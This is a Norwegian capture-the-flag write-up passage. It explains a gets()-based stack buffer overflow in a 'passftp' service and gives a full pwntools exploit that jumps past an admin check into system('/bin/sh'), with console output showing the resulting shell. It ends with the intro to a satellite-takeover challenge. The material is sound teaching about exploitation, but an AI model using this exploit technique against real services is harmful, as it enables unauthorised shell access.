 
## 2.5.3_passftp
Når man er `oper` brukeren får man tilgang til `put` kommandoen i `passftp`, som lar oss lage en fil og legge til innhold. Når innholdet til fila blir lest brukes `gets` funksjonen, som gir oss muligheten til å endre programflyten ved å overskrive returadressen som er lagret på stacken, ettersom PIE er avkrudd, og det ikke er noen stack canary.

I `shell` kommandoen, som bare admin brukeren har tilgang til, er det et kall til `system("/bin/sh")` etter en if-sjekk om brukeren man er er admin. Med buffer overflowet vi har tilgjengelig kan vi endre programflyten til å hoppe til `system("/bin/sh")` kallet, rett etter privilegie-sjekken.

```python
from pwn import *

username = b"oper"
password = b"<forgot_to_save_before_ctf_closed>"
offset = 536

io = remote("passftp.utl", 1024)
io.sendlineafter(b"Username: ", username)
io.sendlineafter(b"Password: ", password)
io.sendlineafter(b"passFTP> ", b"put pwned")
io.recvuntil(b"Data:")

payload = b"A"*offset
payload += pack(0x40265D)
io.sendline(payload)

io.interactive()
```
{: file="exploit.py" }

```console
login@corax:~$ python3 exploit.py
[+] Opening connection to passftp on port 1024: Done
[*] Switching to interactive mode
$ ls ../..
FLAGG
files
passFTP
passwd.txt
ynetd
```


# Department of Technology
```
*Office for safe execution* har over en lengre periode med forskning og utvikling skutt opp sine siste prototyper av *Dynamic Systemplattform* for *Altitude Observation*. Vi har fått høre at da de skulle koble seg til for å laste opp firmware, fikk de ikke dette til å funke.

Vi mistenker at en refactoring i siste liten kan ha ødelagt noe, og hvis vi er raske kan vi ta kontrollen over deres satelitt.
```
